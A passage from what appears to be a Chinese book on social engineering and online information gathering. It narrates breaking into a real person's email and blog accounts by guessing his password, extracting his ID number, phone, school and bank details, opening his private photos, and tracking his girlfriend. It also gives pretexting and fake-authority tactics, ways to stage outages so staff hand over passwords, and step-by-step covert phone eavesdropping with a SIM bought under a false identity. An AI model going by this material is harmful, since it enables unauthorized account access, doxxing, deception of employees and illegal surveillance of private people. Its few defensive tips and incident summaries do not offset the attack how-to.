当我转到QQ拍拍时，网页提示“该用户已冻结”，说违反了交易规则导致账户冻结。由此看来此人果真是一个骗子，如图76所示。


泄露隐私的信息。51博客的用户名是他的姓名加数字，即xueliang****，从中我们可看出他的使用习惯，喜欢用有意义的字符作为网络ID。还记得他的邮箱吗？就是这个zzd**@126.com。我们用他的姓名登录看看，也就是xueliang了，瞧，邮箱登录成功了！如图77所示。


接着，我又在邮箱中找到了一个更为重要的信息，就是他的个人详细资料，其中有他的身份证号码43022419861111****，所在学校班级湖南株洲**学校04计网1班，邮政编码4120**，电话0733-63544**，另一个邮箱sofs**@163.com，还有银行账号，而且确认了其中QQ号码就是我们要找的，如图78所示。


现在我们基本获取了他所有的信息，如果你乐意，你现在可以把他交给网警处理了。我们再来继续玩吧，用那个拼音密码尝试是否可以登录他的51博客……嘿！运气真好，再次成功登录！如图79所示。

你现在一定认为我会去尝试登录他的QQ吧？但是，很不幸，他正好在线，我们待会再来看看吧。还记得邮箱吗？我们去翻翻看有什么东西。在邮箱的“已发送”处找到他发给邮箱地址为 yanjing***@yahoo.com.cn 的两封邮件，接着打开第三封邮件，在我看来，他撰写的邮件内容糟糕得不能再糟糕了，简直不敢相信国家培养的20多岁的学生竟然写出小学水平的信。信件末尾的一段 “I love you” 可以确定他与收件者为恋人关系，如图80所示。

好吧！我承认每个人都有胜利感，让我们再来查询他的女朋友信息。我们注意到他女朋友的邮件地址为 yanjing***@yahoo.com.cn，应该会猜出是雅虎邮箱；那我们使用雅虎搜索引擎来搜索这个邮箱的用户名 yanjing***。我不得不说我太幸运了，找到两条记录，如图81所示。

我很自然地先打开第一项搜索结果，发现并没有找到那个谭学*的女朋友，而是谭学*使用网络ID“冰点”发的论坛帖子。帖子内容是他与一个叫辉哥朋友的QQ聊天记录，从聊天内容中可以知道，这家伙目前在株洲工作，并且又在株洲交了一个新的女朋友，即前面的收件人 yanjing***@yahoo.com.cn，并且聊天内容中他还给出了女朋友的51博客地址 http://www.51.com/home.php?user=yanjing***，很明显看出博客用户名与邮件用户名相同，如图82所示。

有了51博客，我想大概能找出他女朋友的照片了。接着打开他女友的51博客 http://www.51.com/home.php?user=yanjing***，在首页我们很容易看到他与女友的合照，还有他对博客日志的评论；到此我们可以确定他们是恋人关系，如图83所示。

## 第二章 无处藏身——信息搜索的艺术

现在他女朋友的信息我们已经了解了，再来深入刺探下吧。进入那个家伙的博客后台，在相册功能处看到一个名为“我和她”的加密相册，点击进去看看，原来是这个家伙与他两个女朋友在一起亲密的照片，如图84所示。

图83 图84

OK！截止到现在为止，所有的操作都在半个小时内搞定。我们弄到了他全部的个人详细资料、隐私、博客与邮箱密码，以及网络记录，显然也没什么意义再去弄QQ密码，傻瓜也能想到密码是由拼音+数字组成。整个的信息搜索过程我想你已经了解；同样，搜索是有害的。

> **Lilzob点评**  
> 上述搜索案例只是信息搜索过程中的一个缩影，谁能想象只需要一个网络ID就能搜索到真实姓名及其隐私，这是多么危险啊！网络中曾经流行一句话：“在互联网上，没人知道你是一条狗！”。不过在今天，信息搜索技术完全有能力否定这句话！甚至，我不需与你交谈就能知道你喜欢吃什么水果。请相信，这绝不是危言耸听！

#### 2.5.4 告诉你如何从博客搜索深层信息

首先再次感谢 fhod 提供他的博客让我演示信息搜索技术，不可否认，他是一个不可多得的伙伴。让我们切入主题吧！信息搜索以人为本，以网络作为信息的载体，信息随技术的发展，表现方式越来越多样化了，这里以博客媒体进行说明有效的信息挖掘。

Fhod 的博客地址为 http://www.ciker.org，使用的是 ASP 动态网页写的博客程序，对于网页是何种类型并不重要，我们需要的是信息。

- 1. 友情链接
- 2. 日志评论

友情链接就是博客作者好友之间的博客地址链接，也有网址链接。友情链接的应用相当于黑客技术的“旁注攻击”，你也许弄不到博客主人的真实信息，但他的好友却可能知道，因此它可以作为信息搜索的另一条线索。这就相当于你不知道小A叫什么名字，但小A的朋友小B却有可能知道。

打开 fhod 的博客后，会在左边的滚动栏看到友情链接，如图85所示。

当博客主人的好友访问博客日志时，一般都会留下日志评论。大多数的博客评论都会要求评论者留下个人网站以及电子邮箱等联系方式，有的不需要，只要一个ID即可，即网络昵称。这里 fhod 的博客评论只需一个ID即可发表，如图86所示。

不同的博客系统有不同的功能设置，一般的博客都有关联评论者加入好友的功能。比如小A与小B都注册了新浪免费的博客，小B在小A的博客发表评论时，他自己的博客链接会被小A的博客系统自动加上。这样，我们通过查看博客主人的好友评论就可以确定他与哪些人来往，并获知他在网络上的人脉关系。

图85  
图86

## 3、日志要素

**时间：**发表一篇日志后，这篇日志都会标有当时发布的时间。时间很重要，它记录了一个人的成长过程。比如当你查看 fhod 博客最后的日志时，是从2005年开始写的，再仔细查看技术作品，可以确定他当时计算机技术水平处于初级，如图87所示。

图87

**人物：**即从日志中找出对博客主人的生活上有影响的人。我粗略从 fhod 的日志中翻出几个人物，其中有亲人，比如姐姐、父亲等；朋友有孤独依人、自在轮回等等，如图88所示。

图88

人，总有弱点的，这个不需要我介绍过程。仔细找找看，博客主人与哪些人之间出现情感冲突、利益冲突，他如何评价某一个人等。

**事件：**每天，总会有事情在发生；从日志里，你可以找出对博客主人产生重大影响的事件。这里，我从 fhod 的博客中也找到了对他人生影响极大的事件。2003年时，fhod 对网络安全开始感兴趣，原因是游戏账号总被人盗取。其后进入一个黑客论坛学习入门级黑客盗号技术，接着放弃高中生活参加了电脑培训，并开始对入侵服务器与站点感到刺激，从而走向这条黑客之路，如图89所示。

图89

你了解影响博客主人的人生事件又能如何呢？这往往可以使你更加容易接触对方！你可以伪造与博客主人一样的人生经历，多数都会引起他们的好感，这属于心理学的心理效应，有共同价值观与人生信念使得双方更加容易成为朋友。

**能力：**从日志中的文章内容推测出博客主人的受教育程度、学历，以及相关技术能力。前面我们已经知道 fhod 的受教育程度，那么他的技术能力如何呢？我们点击他博客的“技术文档”栏目，从里面的日志很容易地发现基于WEB脚本攻击的技术相当多；再转到“学习笔记”栏目，可以发现写的大多都是脚本入侵渗透，其中还有使用VB编写的黑客工具。因此，fhod 对 ASP 程序有特别的嗜好，并喜欢 SQL 数据库与 Visual Basic 编程，典型的入侵渗透都会；其他的兴趣便是社会工程学，如图90所示。

图90

了解你的目标，往往大有裨益。因为，在信息搜索的过程中，你要占据主导地位，而不是被动的。

## 4. 敏感资料

即博客主人自己给出的个人资料以及联系方式，或者泄露了经常去某个站点的习惯。Fhod 也不例外，也泄露了他的联系方式与爱好，如图91所示。

这样的事很常见，也很普遍，也无法防范，博客就是为了交流，留下联系方式也是为了方便交流，但对于恶意攻击者来说，这是一条很不错的信息。

## 尾语：

博客信息搜索同样也可以应用于其他网络媒体的搜索，它们没有什么区别，因为都是信息汇总。这种方式的信息搜索，要求你要有耐心，并且坚持。信息不会一下就跳出来，需要你去找到它。

图91

### 2.6 尽管：信息真的无处藏身？

在网络中真的无处藏身吗？我得诚实回答：是的！除非你打算不接触网络才有可能避免。不要单纯认为删除网页，或是删除网站中的数据库记录就能保证信息不会泄露，那只是在欺骗自己。为何？网络有相关的存档服务商，他们定期存储网页记录，并且搜索引擎的“蜘蛛”会去自动抓获网页、建立索引存档，因此，你的信息没有完全彻底被删除。

举例来说。比如2007年下半年风行的《QQ珊瑚虫案》，其中最为引发争议的是腾讯在2005年10月左右曾经提供了珊瑚虫QQ下载，这个证据来源于国外的网络存档服务商，我们访问 http://web.archive.org/web/20051031073301/price.tech.qq.com/soft/index.php 网址时，就能明显地发现腾讯相关页面曾经有过“QQ：2005 珊瑚虫正式版”的链接信息，如图92所示。

图92

同样，再来看搜索引擎带来的惊喜，它比网络存档网页更为全面。比如《南方周末》曾刊发过一篇描述巨人公司的网络游戏《征途》为烧钱游戏的文章（“系统”），但很快由于诸多因素在官方网站中的文章被删除。难道一篇非常好的文章就此消失了吗？没有！网友们通过 Google 与百度的快照功能很快找回原始稿件，并且在短时间内大肆传播。切记！不要以为将文件删除就是安全的了。

### 如何保护自己免受伤害

不要留下你的手机号码与身份证号码，即使某些运营商们不会用这样的肮脏手段，但信息盗窃者们可不这样想。

遵守网络应有的文明道德，别将网络与现实世界联系起来，你所看到的、听到的都只是计算机内的二进制信息，因此，你最好别相信网络有漂亮的女生，通常多数是“稀有动物”。如何保护自己免受信息搜索的伤害呢？为此，我整理出“5点TIPS”，需要说明的是，它只能降低你免受信息搜索伤害的几率。

- **别将网名设置得太复杂**：如果不想让黑客们搜索到你，就把注册信息改得很普通，比如网名设置为“中国人”，邮箱名设置为 iloveyou@gmail.com。
- **别经常搜索你的信息**：那是不好的习惯，搜索引擎会特别注意你的，搜索10次就可以了，但不要搜索1000次，Google大叔很生气。
- **别相信有免费的午餐**：有赠送免费的房子吗？没有！若是有人说免费把你捧成大明星，千万不要相信，如果你有魅力的话，你早已进军好莱坞了。
- **别在博客与论坛惹事**：在论坛与博客不要散布不友好的信息，比如“木拉登制造的新病毒！”，否则的话，会有一帮黑客与网警盯上你的。
- **别打开不了解的网站**：中国是全球第一的挂马大国，因此任何你所不了解的链接都得小心点击，不然你成了他人的“肉鸡”。

最后的提醒是，不要过分沉迷于网络虚拟世界；你在游戏中花钱买来的装备，那只是得到的虚荣。也许你QQ的虚拟形象让你看起来是多么闪耀夺目，但我建议你在现实之中获得真正的认可。

网络带来的庞大财富资源是知识，因此要善用资源精进自己的能力。简而言之，免受信息伤害，就是控制合适的上网时间。

**附注**：搜索引擎资源，如图9.3所示。

| 主流搜索引擎 | 博客搜索引擎 | 比较搜索引擎 | 特色搜索引擎 |
|---|---|---|---|
| Google: http://www.google.com | http://blogsearch.google.com | Zuula: http://www.zuula.com/ | Hot Daddy: http://www.hotdaddy.com/ |
| Yahoo: http://www.yahoo.com | http://blogsearch.baidu.com | Bixmoq: http://www.bixmoq.com/ | Quintura: http://www.quintura.com/ |
| 百度: http://www.baidu.com | http://blog.qihoo.com | 多次搜索: http://www.duoci.com/ | Aitervote: http://www.aitervote.com/ |
|  |  | 百Google度: http://www.baigoogledu.com/ | Kratia: http://www.kratia.com/ |

## 第三章 商业间谍窃密技法

- 拒绝公司数据被窃取的事实
- 社会工程学师惯用信息搜索技巧
- 巧设人为陷阱窃取信息
- 信息高级刺探技术
- 商业窃密惯用技法
- 案例攻击应用与分析

### 3.1 别再拒绝公司数据库被窃取的事实

大多数公司都不会自揭伤疤承认自己的数据被盗窃者们曾经侵入或是窃取，因为这会让他们的客户感到不可信任，从而失去了一笔商业交易。现在单纯而盲目地向网络服务器进行扫描攻击的国内黑客们，已经厌倦了这重复枯燥的生活，他们开始利用技术进行金钱交易。

很自然地，那些大公司的计算机数据更加令人感兴趣。但那些数据，公司是不会轻易摆放在网络上让黑客们翻看的，这使得黑客们成功攻入服务器后，发现仅仅是一台装有操作系统的电脑，什么有价值的东西都没有留下，使得黑客们大为懊恼，他们把眼光开始瞄向了公司中的LAN内部网络进行社工攻击。我相信，未来几年中，此类事件将会经常发生，最容易受到损害的企业是面向高科技发展的IT公司。

有些企业高层人员认为，从公司利润中划出一部分费用作安全培训或者购买安全产品是没有必要的；有的甚至满足于虚假的安全感之中。如果仅仅是将数据用一把大锁保护，这种想法尤为可笑，他们忽略了人的存在，人才是安全的软肋。

同时，企业内部制定的安全纪律与保密制度往往会成为一纸空文，没有经过安全培训的员工总在不经意间向黑客吐露公司很平常的信息；员工们乐于助人，回答一个冒称客户的社会工程学师所提出的问题与操作；他们一点也没察觉到安全的漏洞正在一点点地扩展。

#### 3.1.1 “内鬼”《征途》网游源代码泄露事件

2006年3月，拥有大学文化的河南籍人于丁川进入上海《征途》网络公司，担任研发中心开发部程序员，负责《征途》网络游戏部分源代码的研发工作。在担任程序员期间，于丁川就私下复制了服务端源代码、客户端源代码及辅助文档，这是《征途》网络具有独立著作权的《征途》游戏的程序。后来，于丁川离职。

2007年3月，王予川由于经济紧张，于是打起了自己在《征途》工作时复制的服务端源代码的主意。

3月15日、3月30日，王予川在上海浦东新区杨建华大酒店的客房内，将《征途》游戏源代码等分别以7万元和6万元的价格先后卖给王岩、叶明以及吴昊。

几天之后，王岩就找到了新的下家。4月4日，王岩（网名“流浪的蝴蝶”）和汤帅（网名“小样”）结伙，在江苏省南京市中央门锦江之星旅馆客房内，以20万元的价格将上述《征途》游戏源代码等卖给张霖。

紧接着巨人公司的董事长史玉柱很快切断源代码的传播，因此没有带来庞大的损失。如果《征途》网游源代码在网络四处传播，我们很容易知道，这个拥有全国游戏在线玩家最高的公司将面临倒闭与破产。能引起“内鬼”的事件，多数是企业忽略了内部安全的存在，谁知道呢？下一个不满的员工又会引起怎样的安全事件？

#### 3.1.2 电信企业的脆弱：口令泄露事件

2007年1月上旬，安徽省合肥市一家高科技公司软件工程师陈刚，利用社交工程骗得登录小灵通系统维护平台的密码后，从1月下旬至2月底多次登录该平台，对事先购买的86部小灵通的号码属性进行修改，使这些号码具有拨打168声讯台的功能，而且能透支声讯话费。

陈阳使用这些小灵通号码拨打168声讯台，获取声讯话费购买的点卡等“网络虚拟货币”，再以低价卖给陈项伍。据信，有83部小灵通的号码产生了168声讯费，总额达8万余元。

利用社交工程骗取密码是再平常不过的社工渗透，然而大企业也会犯这样愚蠢的错误。即使公司经常咒骂黑客们的非法闯入，但这解决不了那些明显的安全问题所导致的人为漏洞。就目前而言，国内企业通常不愿意在员工的身上进行投资或是安全培训，他们比国外的企业更容易受到攻击。我给这些公司最好的建议是：从运营利润中划分部分费用作为员工安全培训，有必要指导他们如何处理各种各样的信息请求。

## 3.2 社会工程学聊聊调研信息搜集技巧

不论对调查者或是安全专家，信息搜集都是一个令人感兴趣的话题。其实社会工程学师的那些方法与技巧都很简单，只要你有耐心、坚持并投入，你就会很快绕过物理层的安全直接向某个员工获取敏感信息。简而言之，除非你不去寻找信息，否则，信息绝不找上你。

#### 3.2.1 从毫无关系的员工开始

> 最危险的地方就是最安全的地方。

最不可能泄露企业信息的员工恰恰是导致侵入的开端，这犹如我们常常说的一句俗话。这类“无足轻重”的员工处于企业的下层，比如负责处理客户来电的前台员工、负责大楼保洁的员工、负责企业高管接送的司机等等。你知道吗？这类员工通常接触不到机密数据，但是，前台员工会有相关部门负责人的联系表格；大楼保洁员很容易获得大量“垃圾”材料；司机也清楚总裁的具体日程行程……只要低端员工毫无防范地与社会工程学师聊天，信息就可以轻松弄到，他们可以随意小声地说出刚听到的内部人事变动……

大多时候，社会工程学师都是通过微小的、看似无用的信息，经过整理分析得出一条侵入线索的。表面上不会威胁到企业安全的人往往是最有可能的。更重要的一点是，公司管理层的人员不曾告诉过他们，“安全”是什么概念！

#### 3.2.2 冒称与利用权威身份

在美国，你捏造虚假名字或是社会保险号进行获取信息时，法律会进行追究，然而，利用调查与采访的权威媒体身份获取信息通常不会被追究。在中国对此则并没有明确规定，因此，你可以模仿老师的声音打电话给你父母，告知今天放假无须前来上课，大多数你的父母会相信并回答“谢谢！”。

利用虚假身份获取信息是绝妙的方法，我就曾利用此法在获取口令上百试百灵。你甚至可以使用权威身份直接索取信息，那些企业绝不会去怀疑其真实性。就目前而言，社会工程学师的惯用权威身份是记者（电视台、报刊、杂志）、政府人员、调查机构。更深入获取信息的身份多是冒称内部人员、客户等。我很难给你解释人们为什么一点也不怀疑使用了虚假身份的黑客，也许那是与生俱来的本性，又或者对事物的分辨过于空白。

## 第三章 商业间谍窃密技法

#### 3.2.3 垃圾篓，绝妙的信息翻查处

哦！千万别搞错了，我绝对不是让你在臭气熏天的腐败物质与易拉罐里翻垃圾，那有损你的健康！不论是哪一家公司，总会周期性地将废弃的文件与材料进行报废处理，通常在大楼不远处设置垃圾堆放空间，以便垃圾运送车拖走作销毁处理。

垃圾中废弃的打印文件多数是老旧文档，对公司来说可能已无实质性帮助。但是，过时老旧的资料却泄露了企业运营情况，如内部的联系表格、破损的工作证、财务损益表、工作计划、产品说明书等等。这些都方便了社会工程学师做前期的信息收集及对策，有助于了解各部门的分布与主要负责人，使得黑客们清晰地了解想要的信息在哪里，以及应该给谁打电话。更有甚者，会直接付费购买垃圾，那样信息来得更加方便。

### 3.3.3 巧设人为阻隔窃密信息

如果信息自己找上门来，那感觉一定很好。冒称相关人员说“网络故障”比口头上说“你的网络大概有问题”更容易取得对方信任，并获取口令，为什么呢？因为网络故障是真正发生且经证实的，而口头上的说服需要大量的信息基础以证实可信。

总的来说，社会工程学师不是单纯地拨打电话进行套取信息，他们往往会制造出“真正”的麻烦。你会发现，你的电脑开始无法连通网络，你的上司拨来紧急电话，甚至你的电脑开始崩溃……焦急的你开始怎么做？很可能，你会拨通社会工程学师的电话，丝毫不觉掉入了信息陷阱之中。

#### 3.3.1 寻找企业内部的矛盾

还记得前面的《征途》网游源代码泄露事件吗？造成事情的发生有多方面的影响因素，最为明显的原因是公司侵犯了员工的利益，或者员工的请求没有得到满足。

冲突，在国内的企业中是多见的，因为法律没有完整描述雇佣关系间的利益平衡，同时，中国拥有很多的廉价劳动力。例如新的《劳动法》的推行与实施，使得公司无法轻易解雇员工和聘请临时工，导致成本提高，这使得企业高层感到颇为郁闷。但很快，他们会解决这个“问题”，比如央视的大规模裁员，华为7000人辞职事件，沃尔玛全球采购中心针对中国员工半数的“无原则解雇”等。企业在推行高度利润化的同时，常忽视了内部所导致的尖锐矛盾。

接着再看一个真实的例子，美国新泽西州一名电脑系统管理员在2003年10月公司改组时，因担心由此带来的裁员波及自身，于是修改了公司电脑的源代码，并植入“逻辑炸弹”，试图破坏公司的网络服务器。该公司的服务器包含有顾客诊断分析、账单等应用软件，他计划把部分源代码设计成在他生日那天发动网络攻击，但没有成功。直到2005年1月，另一名电脑管理员才发现了那些非法源代码。

对于内部不满的员工，他们要么想跳槽，要么想以一些苦水发泄不满，企业应该防止这样的事情发生。任何不满或是心怀恶意的员工最容易遭商业间谍利用；而不仅仅是社会工程学师冒称某大公司的人力资源部拨出的电话：不满的员工可能会很快被炒掉，但是，当这名员工走出公司大楼的时候，谁又知道他带出了公司资料呢。

##### 3.3.1.1 事实！曾经的企业内鬼事件

FBI 和 CSI 曾对 484 家公司调查发现：超过 85% 的安全威胁来自企业内部。这其中有 16% 来自内部未授权的存取，14% 来自专利信息被窃取，12% 来自内部人员的财务欺骗，11% 来自资料或网络的破坏。

这一数据调查结果是否完全真实，我们无从知道。但来自于企业内部的威胁所带来的损失开始不断见诸报刊，昂贵的安全设备看上去无法防止内部的安全漏洞产生。为了防止机密、核心技术泄露，企业采取的办法是与员工签订保密协议，禁止其进入对手公司，但是这能从根本上保证信息不泄露吗？仍然不能。法律也许能保证协议的最终实施，强制性的规章制度也能起一定的约束作用，但这不是长久之计，最终或许还会沦为一纸空文。

下列的信息来源于网络，让我们了解那些曾经的企业内鬼事件：

- 陈先生，重庆劲隆摩托车制造有限公司原海外市场部经理，跳槽时隐瞒已不在劲隆供职的事实，并带走原有的客户资料。
- 胡先生，广东恩平市嘉维化工实业有限公司原设备厂长，涉嫌为他人“克隆”所在企业的纳米技术，给企业造成巨大经济损失。
- 蒋先生，某 GPS 产业公司原研发人员。2002 年 2 月，私自将公司核心技术 AGSS 自动定位系统提供给了上海耀华机械有限责任公司，使这项国内唯一的专利技术外泄。
- 林先生，腾讯公司以前的科技人员或顾问。三人开创的公司——ComTriad 技术公司承认，该公司盗用腾讯公司的版权信息来生产通讯产品。
- 林先生，佛陶研究所技术人员，将该所“冷等静压陶瓷辊棒”技术分别泄露给南海市的两家工厂，南海市的另一家工厂也通过其他办法窃取了该项技术。
- 全先生，就职韩国 Bellwave 公司，韩国三星电子研究所原研究员，三星手机技术泄密事件的制造者。Bellwave 公司涉嫌窃取了韩国三星公司的手机核心技术，以高价卖给了中国某手机厂商。

如何解决这些大问题？管理！这是管理者的问题，不要幻想一纸规章制度能使技术主管们对公司保持忠诚，而是要经常性地交流，商讨问题的解决。

#### 3.3.2 制造拒绝服务的陷阱

常见的社工获取信息的方法往往是谎称系统出现问题，要求提供口令文档等信息，但高明的社会工程学师不这样做，他们可以设置陷阱来掌握获取信息的主动权。

为了获取员工们的信任，社会工程学师可以谎称是内部人员，报出专业术语，但更棒的做法莫过于他了解员工现在遇到了哪些棘手的问题需要帮助，因为“问题”大多是他本人制造出来的。他可以打个电话到网络中心的技术维护部请求暂时中断网络，以此造成网络故障；或者，他可以放一个手机信号屏蔽器，以造成手机无法连通网络；又如，他向员工的电子邮箱发送大量的垃圾邮件，谎称可能遭到黑客攻击……于是，这位可爱的员工不得不四处求助以解决这些问题，并“运气很好”地遇上了社会工程学师的“帮助”。

大部分的人就是这样，在对并不了解的问题上慌了手脚时，他们很容易受到社会工程学师的操纵。人们往往对帮助自己的人不多加警惕，反而想当然地认为“我遇上了一个雷锋”；显然，员工在获得帮助时，质疑的心理并不多见。很明显，社会工程学师制造出问题也更容易获得信息。

## 第三章 商业间谍窃密技法

### 3.4 信息高级刺探技术

日前，国内已经有不少的商业调查公司，不过大都以“信息咨询”命名，他们协助企业调查竞争对手，如信用调查、市场调查、商业情报搜集等，这种现象在全球范围很常见。而我想说的是，他们的调查手段并不高明，就调查所需要的时间上，短到五天，长到两个月以上。这种调查对社会工程学师来说，简单得只需要拨通几个电话即可搞定。他们是如何做到的呢？很好奇是吗？

#### 3.4.1 自由交谈的内部术语

著名黑客 Adam Laurie 是一位信息安全专家兼 DefCon 黑客年会（Annual Hacker Conference Defcon）的组建者之一。他与一位经济学家聊天的时候，曾问过那位经济学家一个问题：你会几种语言？经济学家回答：四种。Adam Laurie 说：我只会一种，那就是 010101。但是只需要这一种语言，我就可以造成包括军事、经济、生活上极大的影响。

> ——摘自2007年4月《黑客手册》

无须质疑，高明的黑客只需一种语言——二进制，就可以将全球网络搅个天翻地覆；同样，你也无须质疑，高明的社会工程学师精于社会各行的内部术语，他们很容易就能渗透、融入社会各行，轻而易举地闯入内部系统。正是这两种技术天才般的融合，才造就了伟大的黑客——米特尼克神话。

什么是内部术语？它们是否对外公开？有何作用？

内部术语是局限于某个行业描述事物（如描述产品相关参数、细节、系统）或是设备操作上的专用术语、简称等。术语并不一定是内部保密，大多只是某个行业机构在内部的日常操作中使用，当然，个别企业有其自己特有的内部术语，并不公开。社会工程学师使用术语的原因很简单，可以冒称机构的内部员工，更方便地获取可靠信息。

如何获取正确的内部术语呢？

你可以调阅企业相关的业务、设备操作说明书，或者以产品的参数、代号拨打电话给内部员工来求证；如果是企业内部自行修订的专用术语，可以施展社交工程获取。

除去企业方面的正规术语，中国还有一些三教九流的“术语”，即行业黑话、套话、江湖语、秘密语之类。这类术语通常很阴险，它们以特有的性质存在。举例吧，在旅游导游员这行，他们就有很多自创的“宰客”术语描述利益获取，如“大饼团”，便是根据旅游团购物能力的差别所取的，最好的团用大饼来形容。

不管如何，当你想打入某个行业机构时，要先确认是否需要获取他们的内部术语进行更直接的信息索取；如果有必要，你就得设法获得正确的术语关键字。

#### 3.4.2 信息调查表格——你准备好了吗？

或许你是第一次听说“信息调查表格”，它并不神秘，只是起到了信息的存储、查询、组织分类作用。如果你清楚地知道获取的信息是什么，且有过人的记忆力，那么表格你无须经常用到；若你很茫然、无从组织信息，那么这个表格对你大有裨益。这里介绍两种表格，分别是《简表》（如图1所示）与《X信息表》（如图2所示）。

第一个是《简表》，在“确定吗？”栏下询问你是否已经确定目标与计划，否则的话，你会如高速行驶且没有方向感的汽车一样横冲乱撞。在“了解吗？”那一栏，大多数的时候你可以直接忽略。


图 1


图 2

#### 3.4.3 看上去可信吗？——标准化策略

这一项要求很简单——像演员一样善于扮演角色。内部术语是基础，最终的运用是关键。你要表现得职业化，使用专业的术语，有序的操作步骤，让人看起来你就是那里的人；要尝试构建一个幻象，最终，让别人相信你。在信息获取过程中，重申你的权威身份，多用指示性与描述性的措辞，这无形中更能让人认可你。

**职业化是如何表现的呢，即商务礼仪、形象设计等？**

假如保安看到着装为牛仔的年轻人进入企业大门时，很不幸，这位年轻人必须接受质询问答。在步入某个机构时，你得确定已满足他们的内部规章与制度的要求，这犹如你步入一群小孩子中，得用相同的语言谈论孙悟空为何从石头中出来，并用孙悟空的动作使他们认可你是可信任的伙伴一样。

敏感且警惕的员工会对不按合法程序索取信息的人持有怀疑。比如，你想获取某人的真实姓名而去询问保安，那可是一个严重的操作错误。合法步骤应该是去询问前台员工，我可不介意你会引发保安的警觉（BURN THE SOURCE）。

**切记：在正确的地方，正确的时间，询问正确的事。**

## 第三章 商业间谍窃密技法

### 3.5 商业窃密新技法

在本小节，我们从信息研究的角度看商业窃密问题，并拿出一套安全方案解决窃密问题。商业窃密是疯狂的，多数是来自于机构对安全问题上的无知所引起的；封堵信息渠道并不能保证不会泄密，人们应该将眼光着重于技术与管理手段，愚昧无知只能引起更多的灾难。古时行军作战统筹，最重要的一条是“知己知彼，百战不殆”，因此了解恶意商业窃密者的攻击技法有助于安全的防御。企业应该知道相关的窃密技术手段，并对员工进行培训，将损失的威胁降至最低。

#### 3.5.1 电话窃听技术

在这个高科技时代，电话窃听并非是一种新技术，也并不是那么难以实现的。电话窃听一般用于商业窃密与政府官员之间。在今天，新技术催生了更高级、更方便的隐藏式窃密，并且其成本也在降低。不要质疑电话窃听在今天是否流行，在西方，商业窃听是存在且流行的，FBI（联邦调查局）更喜欢使用这一技术。同样，窃听技术也是每个社会工程学师与生俱来就热衷于研究的。窃听技术是多方面的，有军事级的高级监听，比如通过电线杆上的电缆进行窃听或地下布线窃听等。这里我们主要探讨常见的窃听方式及防范，限于个人能力，不对无线窃听技术做介绍，你可以使用数字电话防止无线窃听。需要提醒的是，千万不要从网络购买相关窃听器材，那多数是虚假的信息。

##### 3.5.1.1 任何人都会的手机监听技法

首先，你需要一部手机，最好不是翻盖式的手机。如果你确定已经拥有一部相当不错的手机了，就可以继续下面的操作步骤：

- 1. 确定你的手机信号处于良好状态，在你想监听的房间中没有物体可能对信号造成干扰。一般不会遇到信号方面的问题，除非你监听的地方有磁场。
- 2. 将你手机的“情景模式”设置为“安静环境”（如果有这项功能的话），以确保你的手机不会发出任何声音以及震动。如果你没找到“安静环境”，可以找找看是否有“铃声”与“震动”的设置，并将它们关闭。
- 3. 接着，将你手机“通话设置”里的“自动应答”功能开启（这个功能一般都应该有吧！）。
- 4. 再将你的手机放到隐蔽处，通常是天花板上与会议桌下面。

当这些步骤你都完成后，就可以开始监听之旅了。当对方进入你放置监听手机的房间，你要做的是，拨通你的那部手机，听听他们在谈论什么重要信息。这样，你就可以远隔千里监听，并能随时挂掉电话。

如何不被怀疑？有两种方法可以实现：

- 1. 你可以购买预付费的手机卡；
- 2. 使用虚假身份购买手机卡。

如果通信运营商营业员要求你填写身份证信息，你可以借口说“我的身份证忘记带了”，这时你会发现，营业员会“好心”地说：“不必担心，我这里有一个身份证号码。”

##### 3.5.1.2 智能手机高级窃密技巧

这种手机窃密方法更为常见，防不胜防，你只需要一台智能手机即可搞定。智能手机是指装有操作系统的手机，常见的手机操作系统有 PalmOS、Symbian、Windows CE 和 Linux 四种。

> 原理很简单，正如在别人的电脑中安装特洛伊木马进行任意控制一样。由于科技的发展，手机操作系统的出现使得手机可以像电脑一样安装应用软件。我猜你很快想到了，在手机中安装窃密软件。如果你是个相当不错的程序员，你就可以利用手机协议编写个窃密软件。当然，国外窃密软件相当地发达，甚至手机生产商家也方便地提供了这一“窃密”手段，即你经常在电视机中所看到的广告——“商务通防盗手机”！本质上，这就是一台装有窃密软件的手机。

被装有窃密软件的手机能实现哪些功能呢？我们来看看国内曾经出现的窃密软件“X卧底”的说明介绍：

- 找回被盗手机
- 备份所有短信以便日后回顾
- 保存您的手机通话历史记录
- 监控您的话费
- 控制您的 GPRS 流量费用
- 查看手机历史短信
- 查看手机历史通话记录
- 远程实时通过手机监听监控

上述功能并无特别之处，早有黑客编写相关软件拨打免费电话，这就意味着，只要手机操作系统存在，手机泄密就不会消失。那么有哪些同性质的软件呢？如诺基亚手机上的 Guardian 防盗软件、手机保护神等等。这些软件操作简单，具体使用无须我介绍，大家基本都会。

手机泄密的防范很简单，主要是不要接受他人赠送的手机，不让陌生人接触你的手机。对于普通用户来说，也不用过多担心，智能手机在国内还不普及。

##### 3.5.1.3 窃听内部线路电话的技巧

窃听内部线路电话很多人都能轻松做到！我们知道很多企业与机构都有内线电话，外人不能轻易拨入，那么如何窃听呢？这需要我们先来了解一下相关知识。

电话通信系统由市话交换机、信号传输线路、用户终端设备等三大部分组成。早期的黑客就是直接控制了交换机，从而达到修改线路的接入与呼出。不过最方便的窃听是直接修改用户终端设备，即接听线路。简单地说，就是在用户终端处（电话或者线路）做手脚。

举例说明：你在家里的客厅装了一部电话，卧室也装了分机，当外部用户拨打进来时，你会惊奇地发现，两台电话可以同时接听。

如何能发现被窃听或是装了分机呢？很简单，检查你的电话线或电话线分接盒，通常你会看到一条蓝色与红色的线；如果你发现有其他多余的线，很有可能……你的电话有问题（也有可能是装修工使用了备用线），如图3所示。


## 第三章 商业间谍窃密技法

#### 3.5.2 语言与影像监控

相对电话窃听来说，语言与影像监控隐蔽性更高，成本更低。为何？录音与摄像实现技术并非秘密；很多人都了解；很多人都有能力实现其监控。

录音与摄像本来是一项再正常不过的科技功能，然而对其进行加以改造、重组，就不再是原来的正常科技产品，而是令人无法防范的危险产品。还有，你是否注意到，这项技术早已失去了原来的价值，在公共场合，视频监控在不断窥探人们的隐私。当你行走于马路上的时候，请抬头看看，是否有摄像头正盯着你？当你去商场购物的时候，是否了解天花板上的一排摄像头正让保安们盯着？当你工作于一家金融单位的时候，你会感觉很不自在，因为你的背后有一个摄像头……

也许现在你很坦然，或者说你已习惯于隐私泄露，那么请继续往下看，尽管我不能帮你把一个城市几百万的公共摄像头摘下，但可使你了解其技术，降低伤害……尽管社会工程学师不喜欢这样的游戏，但更多的人会。

##### 3.5.2.1 无处不在的窃听

